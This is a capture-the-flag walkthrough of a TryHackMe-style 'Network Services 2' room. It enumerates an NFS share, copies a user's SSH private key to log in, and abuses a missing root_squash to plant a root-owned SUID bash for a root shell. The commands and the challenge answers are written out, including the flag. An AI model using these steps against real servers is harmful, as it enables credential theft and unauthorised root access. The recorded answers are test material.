 Network Services 2
##################
:Author: David Boyd
:Date: 2020-11-17

[Task 3] Enumerating NFS
************************

enumeration
	a process which establishes an active connection to the target hosts to
	discover potential attack vectors in the system, and the same can be used
	for further exploitation of the system.

NSF-Common
	a package used in NFS interaction that include programs, such as: lock,
	statd, showmount, nfsstat, gssd, idmapd, and mount.nfs.

.. code-block:: Bash

	# Install NFS-Common pckg
	sudo apt install nfs-common -y

Mounting NFS Shares
===================

Your client's system needs a directory where all the content shared by the host
server in the export folder can be accessed.  You can create this folder
anywhere on your system.  Once you've created this mount point, you can use the
"mount" command to connect the NFS share to the mount point on your machine,
like this:

.. code-block:: Bash

	sudo mount -t nfs IP:share /tmp/mount/ -nolock

+----------+-------------------------------------------------------------+
| Tag      | Function                                                    |
+==========+=============================================================+
| mount    | execute the mount command                                   |
+----------+-------------------------------------------------------------+
| -t nfs   | type of device to mount, then specifying that it's NFS      |
+----------+-------------------------------------------------------------+
| IP:share | The IP Address of the NFS server, and the name of the share |
|          | we wish to mount                                            |
+----------+-------------------------------------------------------------+
| -noloock | Specifies not to use NLM locking                            |
+----------+-------------------------------------------------------------+

Questions
=========

Conduct a thorough port scan scan of your choosing, how many ports are open?
----------------------------------------------------------------------------
:Answer: 7

Which port contains the service we're looking to enumerate?
-----------------------------------------------------------
:Answer: 2049
:Note: 2049: UDP - NFS (Network File SYstem) (Official)

Now, use /usr/sbin/showmount -e [IP] to list the NFS shares, what is the name of the visible share?
---------------------------------------------------------------------------------------------------
:Answer: /home

Walkthrough
^^^^^^^^^^^
:showmount: show mount information for an NFS server
:showmount -e (or --exports): Show the NFS server's export list.

.. code-block:: Bash

	showmount -e $TM

What is the name of the folder inside?
--------------------------------------
:Answer: cappucino

Walkthrough
^^^^^^^^^^^
:WSL: OVPN needs to be initiated through WSL, not Windows.

Time to mount the share to our local machine!

First, use `mkdir /tmp/mount` to create a directory on your machine to mount
the share to. This is in the /tmp directory- so be aware that it will be
removed on restart.

Then, use the mount command we broke down earlier to mount the NFS share to
your local machine. Change directory to where you mounted the share-

.. code-block:: Bash

	# Mount the $TM's folder
	sudo mount -t nfs $TM:/home /tmp/mount/ -nolock

Have a look inside this directory, look at the files. Looks like we're inside a user's home directory...
--------------------------------------------------------------------------------------------------------
:Answer: [No answer needed]

Interesting! Let's do a bit of research now, have a look through the folders.  Which of these folders could contain keys that would give us remote access to the server?
------------------------------------------------------------------------------------------------------------------------------------------------------------------------
:Answer: .ssh

Which of these keys is most useful to us?
-----------------------------------------
:Answer: id_rsa

Can we log into the machine using ssh -i <key-file> <username>@<ip>? (Y/N))
---------------------------------------------------------------------------
:Answer: Y

Walkthrough
^^^^^^^^^^^

Copy this file to a different location your local machine, and change the
permissions to "600" using "chmod 600 [file]".

Assuming we were right about what type of directory this is, we can pretty
easily work out the name of the user this key corresponds to.

.. code-block:: Bash

	mkdir /tmp/bleh && cd /tmp/bleh/
	cp /tmp/mount/cappucino/.ssh/id_rsa /tmp/bleh/id_rsa
	sudo chmod 600 id_rsa
	ssh -i id_rsa cappucino@$TM

[Task 4] Exploiting NFS
***********************

Introduction
============

root_squash
	a NFS shares feature that, when enabled, *prevents anyone connecting to the
	NFS share from having root access* to the NFS volume.  Thus, remote "root"
	users are assigned as "nfsnobody" users when connected.  If root_squash is
	turned off, then remote users can create SUID bit files.

SUID bit set
	file(s) can be run with the permissions of the file(s) owner/group.  --as a
	super-user, we can leverage SUID to get a shell with

Method
------
:files: bash shell executable

1. Upload files to the NFS share
2. Set the permissions of these files
3. Log in through ssh
4. Execute files

The Executable
--------------

Upload a shell that is th esame as the server's (known from nmap scan).

Method Mapped Out
-----------------

1. NFS Access
2. Gain low privilege shell
3. set SUID permissions through NFS (if misconfigured *root squash*)
4. login through SSH
5. execute SUID bit bash executable
6. Root access!

Questions
=========

First, change directory to the mount point on your machine, where the NFS share should still be mounted, and then into the user's home directory.
-------------------------------------------------------------------------------------------------------------------------------------------------
:Answer: [No answer needed]

Download the bash executable to your Downloads directory. Then use "cp ~/Downloads/bash ." to copy the bash executable to the NFS share. The copied bash shell must be owned by a root user, you can set this using "sudo chown root bash"
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
:Answer: [No answer needed]

What letter do we use to set the SUID bit set using chmod?
----------------------------------------------------------

Walkthrough
^^^^^^^^^^^

Now, we're going to add the SUID bit permission to the bash executable we just
copied to the share using "sudo chmod +[permission] bash".

What does the permission set look like? Make sure that it ends with -sr-x.
--------------------------------------------------------------------------
:Answer: rwsr-sr-x

Walkthrough
^^^^^^^^^^^
:Note: There may be alterations to the permissions.

Let's do a sanity check, let's check the permissions of the "bash" executable
using "ls -la bash".

Now, SSH into the machine as the user. List the directory to make sure the bash executable is there. Now, the moment of truth. Lets run it with "./bash -p".  The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
:Answer: [No answer needed]

Great! If all's gone well you should have a shell as root! What's the root flag?
--------------------------------------------------------------------------------
:Answer: THM{nfs_got_pwned}

Walkthrough
^^^^^^^^^^^

**Note:** In order to allow the NFS system to copy the file's permissions, you
must modify the permissions *afer copying file from localhost to mounted
location*.

This walkthrough covers all of **Task 4**.

.. code-block:: Bash

	# Download the server's bash version
	wget https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash?raw=true
	-O bash

	# Copy from localhost to mounted NFS
	cp ./bash /tmp/mount/cappucino/bash

	# Change ownership
	sudo chown root /tmp/mount/cappucino/bash

	# Set SUID
	sudo chmod +s /tmp/mount/cappucino/bash

	# CTF
	cat /root/root.txt

